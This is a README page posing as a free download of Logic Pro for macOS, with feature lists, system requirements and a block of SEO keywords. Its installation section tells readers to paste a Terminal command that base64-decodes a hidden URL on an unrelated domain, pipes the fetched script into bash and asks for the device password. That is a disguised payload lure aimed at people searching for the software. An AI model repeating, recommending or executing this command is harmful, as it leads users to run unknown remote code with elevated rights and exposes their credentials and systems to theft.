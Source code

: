 # 🎵 Logic Pro for macOS – Professional Music Production Studio  

## 📌 About Logic Pro  
Logic Pro is a world-class professional music production software for macOS, offering a complete toolkit for recording, editing, mixing, and mastering. Whether you're producing beats, composing orchestral arrangements, or mixing live recordings, Logic Pro provides everything you need in one sleek, powerful environment.  

With advanced features like multi-track recording, MIDI editing, virtual instruments, audio effects, and Dolby Atmos support, Logic Pro is trusted by musicians and producers worldwide. Its intuitive interface, seamless macOS integration, and massive sound library make it the perfect choice for both beginners and professionals.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"

---

## 🎬 Overview  

A quick look at key parts in action:  

![Logic Pro Screenshot 1](https://i.pinimg.com/736x/93/2a/87/932a873ac00267c34ce53d7e868bdac3.jpg)  
![Logic Pro Screenshot 2](https://frankfurt.apollo.olxcdn.com/v1/files/uzdsq4y9ualx1-KZ/image;s=1867x1167)  

---

## 🚀 Key Features  
- 🎼 **Full Production Suite** – Record, edit, and produce music with professional-grade tools.  
- 🎹 **MIDI & Audio Editing** – Precise control over notes, timing, and dynamics.  
- 🎧 **Massive Sound Library** – Thousands of instruments, loops, and samples.  
- 🎚 **Mixing & Mastering** – Advanced effects, automation, and surround sound mixing.  
- 🎤 **Live Recording** – Multi-track and punch-in recording with low latency.  
- 📡 **Dolby Atmos Support** – Create immersive 3D audio experiences.  
- 🎨 **User-Friendly Interface** – Clean, customizable, and macOS-optimized.  
- 🛠 **Plugin Support** – Use AU and third-party effects/instruments.  
- ⚡ **Optimized Performance** – Runs efficiently even with large projects.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 8 GB minimum (16 GB recommended)  
- **Storage:** 6 GB for installation, 72 GB for full sound library  
- **Others:** Internet connection for sound library download  

---

## 🔍 SEO Keywords  
logic pro mac · logic pro music production · mac music studio · logic pro x download · logic pro audio editing · macos daw · mac recording software · logic pro beats · logic pro midi · apple music production software · logic pro mixing · logic pro mastering · mac music creation · logic pro plugins
